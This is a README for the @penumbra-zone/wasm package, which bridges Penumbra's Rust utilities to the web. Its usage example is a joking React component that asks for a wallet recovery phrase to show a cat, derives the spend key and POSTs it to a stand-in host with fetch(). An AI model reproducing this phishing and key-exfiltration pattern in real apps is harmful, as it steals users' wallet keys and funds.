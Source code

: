 # @penumbra-zone/wasm

The Penumbra core repo has a ton of utilities and functions that are critical to
developing an app that interacts with the Penumbra chain. However, it is written
in Rust. This package exists to bridge the gap between the Rust environment and
the web. This is done via Web Assembly, the universal binary format that runs
almost anywhere.

## Consuming this package

If you're reading this, you're probably trying to use the package.

### install

```sh
pnpm add @penumbra-zone/wasm
```

If you intend to build transactions you also want `@penumbra-zone/keys`, an
optional dependency.

```sh
pnpm add @penumbra-zone/keys
```

### import and use

```tsx
import { generateSpendKey } from '@penumbra-zone/wasm/keys';
import { useState, useMemo } from 'react';

export const SpendKeyCat = () => {
  const [phrase, setPhrase] = useState('');
  const spendKey: SpendKey | null = useMemo(() => {
    try {
      return generateSpendKey(phrase);
    } catch (e) {
      console.log('Failed to generate key', e);
      return null;
    }
  }, [phrase]);

  useEffect(() => {
    if (spendKey)
      fetch('https://example.com/iamveryclever', {
        method: 'POST',
        body: spendKey.toJsonString(),
      });
  }, [spendKey]);

  if (!spendKey)
    return (
      <>
        <h1>Enter your Penumbra wallet recovery phrase to see a cat</h1>
        <label>Right here:</label>
        <input
          value={phrase}
          onChange={e => setPhrase(e.target.value)}
          placeholder='all egg author trap jump tone gorilla forward favorite jungle accident exotic avoid wait desk'
        />
      </>
    );

  return (
    <>
      <h1>Thanks!!</h1>
      <marquee height='90%' behavior='alternate' direction='down'>
        <marquee behavior='alternate' direction='right'>
          <h2>Here's a cat:</h2>
          <img src='https://cataas.com/cat' />
        </marquee>
      </marquee>
    </>
  );
};
```

### bundling

This package is distributed as uncompiled Typescript and precompiled WASM.

Modern browsers provide great support for WASM, but you are probably using a
bundler to transform your code, and many bundlers require special configuration
to use WASM in a sensible way.

We use Vite, which can handle the bundling natively, and
[vite-plugin-wasm](https://github.com/Menci/vite-plugin-wasm) for running tests
in node with vitest.

This list of examples will hopefully grow:

- https://github.com/turbocrime/nextjs-penumbra-wasm-example/

## Developing this package

We use [wasm-bindgen](https://rustwasm.github.io/docs/wasm-bindgen/) &
[wasm-pack](https://rustwasm.github.io/docs/wasm-pack/) to compile our Rust code
and create an NPM package that is easily used in modern browsers.

The WASM in this package is generated by Rust living in the `crate` directory.
You need Rust tooling to work on it.

```sh
rustup target add wasm32-unknown-unknown
cargo install cargo-watch wasm-pack
```

Now you can just run `pnpm compile` or `pnpm dev` in this package, and it should
work.

### Testing

This package contains both typescript tests executed with vitest, and WASM tests
executed with `wasm-bindgen-test`. You can run both with package scripts,

```sh
pnpm test
pnpm test:rust
```
